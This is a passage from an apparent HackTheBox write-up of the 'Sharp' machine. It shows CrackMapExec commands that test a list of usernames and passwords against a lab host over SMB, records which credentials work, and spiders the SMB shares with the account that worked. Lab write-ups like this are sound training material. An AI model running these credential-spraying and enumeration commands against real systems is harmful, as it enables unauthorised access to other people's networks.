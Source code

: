 In this step, we will correspondingly put our usernames and passwords in two separate text file and let CME do the verification job for us.

```bash
# users.txt                   
lars
Administrator
                                                                                                    
# passwords.txt 
G123HHrth234gRG
G2@$btRSHJYTarg

┌──(root💀kali)-[/home/…/HackTheBox/Sharp/opt/CrackMapExec]
└─# poetry run crackmapexec.spec smb 10.10.10.219 -u ../../users.txt -p ../../passwords.txt 
SMB         10.10.10.219    445    SHARP            [*] Windows 10.0 Build 17763 x64 (name:SHARP) (domain:Sharp) (signing:False) (SMBv1:False)
SMB         10.10.10.219    445    SHARP            [+] Sharp\lars:G123HHrth234gRG 
```

Only `lars` can log in so we should excluded Administrator credentials for now.

### Credentials acquired

| Username      | Password        | Status  |
| ------------- | --------------- | ------- |
| Administrator | G2@$btRSHJYTarg | Invalid |
| lars          | G123HHrth234gRG | Valid   |

## User-level access

After using `lars` credentials, we are able to crawl his shared-objects with `spider_plus` module as following:

```bash
┌──(root💀kali)-[/home/…/HackTheBox/Sharp/opt/CrackMapExec]
└─# poetry run crackmapexec.spec smb 10.10.10.219 -u lars -p G123HHrth234gRG -M spider_plus     2 ⨯
SMB         10.10.10.219    445    SHARP            [*] Windows 10.0 Build 17763 x64 (name:SHARP) (domain:Sharp) (signing:False) (SMBv1:False)
SMB         10.10.10.219    445    SHARP            [+] Sharp\lars:G123HHrth234gRG 
SPIDER_P... 10.10.10.219    445    SHARP            [*] Started spidering plus with option:
SPIDER_P... 10.10.10.219    445    SHARP            [*]        DIR: ['print$']
SPIDER_P... 10.10.10.219    445    SHARP            [*]        EXT: ['ico', 'lnk']
SPIDER_P... 10.10.10.219    445    SHARP            [*]       SIZE: 51200
SPIDER_P... 10.10.10.219    445    SHARP            [*]     OUTPUT: /tmp/cme_spider_plus
```

We made the `.json` more readable by filtering out the time and file size.

```bash
┌──(root💀kali)-[/home/kali/HackTheBox/Sharp]
└─# cat 10.10.10.219_lars_spider.json | grep -v 'time\|size' | grep ': {' | awk -F\" '{print $2}'  
IPC$			# directory
InitShutdown
LSM_API_service
PIPE_EVENTROOT\\CIMV2SCM EVENT PROVIDER
PSHost.132655164003465770.3392.DefaultAppDomain.powershell
W32TIME_ALT
Winsock2\\CatalogChangeListener-154-0
Winsock2\\CatalogChangeListener-1dc-0
Winsock2\\CatalogChangeListener-268-0
Winsock2\\CatalogChangeListener-274-0
Winsock2\\CatalogChangeListener-36c-0
Winsock2\\CatalogChangeListener-42c-0
atsvc
epmapper
```

[^1]: See more about PowerShell one-liner: https://gist.github.com/m8r0wn/b6654989035af20a1cb777b61fbc29bf
[^2]: Proof of Concept
[^3]: Virtual Machine